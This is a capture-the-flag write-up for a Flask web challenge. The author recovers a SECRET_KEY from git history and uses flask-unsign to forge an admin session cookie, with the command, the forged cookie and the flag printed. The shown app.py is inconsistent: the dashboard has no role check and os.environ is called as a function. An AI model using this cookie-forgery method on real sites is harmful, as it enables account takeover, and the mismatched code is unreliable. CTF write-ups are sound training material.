





**WinterCTF 2025**

**Challenge:** Forger

**Category:** Web

**Flag:** ``winterctf{y0u_f0rg3d_my_s3ss1on_c00k1e}``

I participated on my own in this CTF and got 1st place!

We're given chall.zip and the link ``https://forger.challenge.tjcsec.club/``

Visiting the link, we see what may be the most simplistic login panel ever:


Extracting the .zip file gives us app.py:
```
from flask import Flask, request, session, redirect, render_template_string
import os

app = Flask(__name__)
app.config["SECRET_KEY"] = os.environ("SECRET_KEY")

FLAG = open("flag.txt", "r").readline().strip()

login_page = """
<h2>Login</h2>
<form method="POST">
    <input name="username" placeholder="username"><br>
    <input name="password" placeholder="password" type="password"><br>
    <button>Login</button>
</form>
"""

dashboard_page = """
<h2>Admin Dashboard</h2>

    <p>nah you ain't admin</p>

    <p>FLAG: {{ flag }}</p>

<a href="/logout">Log out</a>
"""


@app.route("/")
def home():
    return redirect("/login")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template_string(login_page)

    user = request.form.get("username", "")
    pw = request.form.get("password", "")

    if user == "admin" and pw == "password":
        session["role"] = "admin"
        return redirect("/dashboard")

    session["role"] = "user"
    return "invalid creds"


@app.route("/dashboard")
def dashboard():
    return render_template_string(dashboard_page, flag=FLAG)


@app.route("/logout")
def logout():
    session.clear()
    return redirect("/login")


if __name__ == "__main__":
    app.run("0.0.0.0", 5000, debug=True)
```

To get the flag, you must visit /dashboard with the admin role. 
Visiting /dashboard normally stops us:



And no, inputting "admin" and "password" didn't work.
This is probably because of our session cookie, which you can see via BurpSuite:


Also present in the decompilation was a .git directory.
I've done a challenge with a git repository before, so I had some prior experience.

Running ``git show *`` shows the following commit:
```
commit 1a205131c531361d38ed17d356066c29af6bc87d (HEAD -> master)
Author: Ansh Agrawal <hsna.agrawal@gmail.com>
Date:   Tue Nov 18 11:52:21 2025 -0500

    bug fix

diff --git a/app.py b/app.py
index 2bc2acc..f491d54 100644
--- a/app.py
+++ b/app.py
@@ -1,7 +1,8 @@
 from flask import Flask, request, session, redirect, render_template_string
+import os

 app = Flask(__name__)
-app.config["SECRET_KEY"] = "super_secret_flask_key_676767"
+app.config["SECRET_KEY"] = os.environ("SECRET_KEY")

 FLAG = open("flag.txt", "r").readline().strip()
 ```

<del>funniest chall ever bruh 💔</del> We now know the secret key, ``super_secret_flask_key_676767``.

The Flask ``SECRET_KEY`` is used to sign session cookies, so now that we have it, we can forge an admin session cookie with it.

A quick Google search gives us the information we need:


After installing flask-unsign and reading some documentation, I figured out the format for signing cookies with a SECRET_KEY:
``flask-unsign --sign --cookie "{'variable': 'value'}" --secret 'secret'``

So, I ran the command:
``flask-unsign --sign --cookie "{'role': 'admin'}" --secret 'super_secret_flask_key_676767'``

This yielded the forged session cookie ``eyJyb2xlIjoiYWRtaW4ifQ.aTnQig.AmTDf2ovHBrEtr3xotUjr3LokkA``.

Since this is signed with the SECRET_KEY, it should pass validation!

We can now replace our cookie with the forged cookie in our GET request.
I used BurpSuite for this, but you can probably use curl too:


It worked! Using the forged admin session cookie printed the flag:
``winterctf{y0u_f0rg3d_my_s3ss1on_c00k1e}``
